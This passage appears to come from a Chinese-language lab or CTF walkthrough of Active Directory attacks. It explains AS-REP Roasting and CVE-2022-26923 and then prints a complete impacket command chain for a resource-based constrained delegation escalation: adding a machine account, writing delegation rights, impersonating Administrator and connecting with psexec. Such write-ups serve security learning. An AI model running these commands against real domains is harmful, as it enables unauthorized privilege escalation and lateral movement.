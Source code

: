 ### AS-REP Roasting 攻击

接下来，进一步获取系统的域控主机，学习一下 AS-REP Roasting 攻击。需要一个前提条件，域控默认不开启`预身份验证`，攻击者可以使用指定的用户去请求票据，向域控制器发送`AS_REQ`请求，此时域控会不作任何验证便将 TGT 票据和加密的 Session-key 等信息返回。因此攻击者就可以对获取到的加密 Session-key 进行离线破解，如果爆破成功，就能得到该指定用户的明文密码。

### CVE-2022–26923 && RBCD Attack 域控

需要学习的知识点

命令如下 `基于资源的约束性委派(RBCD)进行提权`

了解`Active Directory 域服务特权提升漏洞`,该漏洞允许低权限用户在安装了 Active Directory 证书服务服务器角色的默认 Active Directory 环境中将权限提升到域管理员。其原理主要是`唯一性判断`,Windows 系统未对 dNSHostName 做唯一性判断，域普通用户将其属性嵌入到证书中从而提升为域控

```bash
# 基于资源的约束性委派 (RBCD) 进行提权
echo "172.22.15.35 XR-0687.xiaorang.lab" >> /etc/hosts
# 通过 impacket-addcomputer 添加机器用户 hacker1/Admin@123
proxychains -q impacket-addcomputer xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'hacker1$' -computer-pass 'Admin@123'
# 将创建的机器用户 hacker1 的 SID 添加到 XR-0687 机器的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性
proxychains rbcd.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'hacker1$'
# 发起资源约束委派请求 ST 票据
proxychains impacket-getST xiaorang.lab/'hacker1$':'Admin@123' -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator
# 导入票据
export KRB5CCNAME=Administrator.ccache
# 通过 psexec 无密码连接横向
proxychains -q impacket-psexec -k -no-pass -dc-ip 172.22.15.13 administrator@XR-0687.xiaorang.lab -codec gbk
```

[![](assets/1709193375-be2c4398bbf395f1e6ceb7ce0d1e15c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204914-9c9b7622-d56e-1.png)

`AD域权限提升漏洞(CVE-2022-26923)`  
渗透主机 `172.22.15.18(XR-CA.xiaorang.lab)`，整数服务漏洞  
大致流程如下  
下载：[https://github.com/ly4k/Certipy/](https://github.com/ly4k/Certipy/)
